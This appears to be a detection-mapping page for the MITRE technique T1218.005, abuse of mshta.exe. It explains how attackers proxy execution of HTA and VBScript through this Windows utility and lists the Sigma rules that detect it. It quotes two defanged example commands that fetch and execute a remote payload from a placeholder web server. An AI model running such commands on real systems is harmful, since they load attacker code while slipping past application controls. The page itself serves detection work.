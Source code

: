 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta Executes Remote HTML Application (HTA)
## OS
  - windows


## Description:
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.


# Sigma Rule
 - process_creation_susp_web_request_cmd.yml (id: 9fc51a3c-81b3-4fa7-b35f-7c02cf10fd2d)

 - posh_ps_web_request.yml (id: 1139d2e2-84b1-4226-b445-354492eba8ba)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_shell_spawn_susp_program.yml (id: 3a6586ad-127a-4d3b-a677-1e6eacdf8fde)

 - win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - sysmon_powershell_network_connection.yml (id: 1f21ec3f-810d-4b0e-8045-322202e22b4b)

 - sysmon_win_binary_github_com.yml (id: 635dbb88-67b3-4b41-9ea5-a3af2dd88153)



[back](../index.md)
